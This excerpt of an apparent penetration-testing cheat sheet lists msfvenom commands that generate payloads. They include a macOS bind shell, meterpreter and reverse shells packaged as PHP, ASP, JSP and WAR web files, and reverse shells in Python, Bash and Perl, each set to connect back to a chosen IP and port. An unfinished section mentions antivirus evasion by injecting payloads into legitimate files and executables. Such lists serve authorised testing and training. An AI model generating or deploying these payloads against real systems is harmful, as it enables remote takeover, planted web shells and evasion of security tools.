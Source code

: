 Bind Shell
```bash
msfvenom -p osx/x86/shell_bind_tcp RHOST=<IP> LPORT=<PORT> -f macho > shell.macho
```

#### Web App Payloads

PHP
```bash
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php

cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

ASP
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

JSP
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

#### Scripting Payloads
Python
```bash
msfvenom -p cmd/unix/reverse_python LHOST=<IP> LPORT=<PORT> -f raw > shell.py
```

Bash
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<IP> LPORT=<PORT> -f raw > shell.sh
```

Perl
```bash
msfvenom -p cmd/unix/reverse_perl LHOST=<IP> LPORT=<PORT> -f raw > shell.pl
```

#### A/V EVASION
 
Inject payload into a legit file

Veil evasion

? what else?

MSF5 Evasion Payloads

?

#### More Advanced Venom and More Examples

Inject a payload into an PE
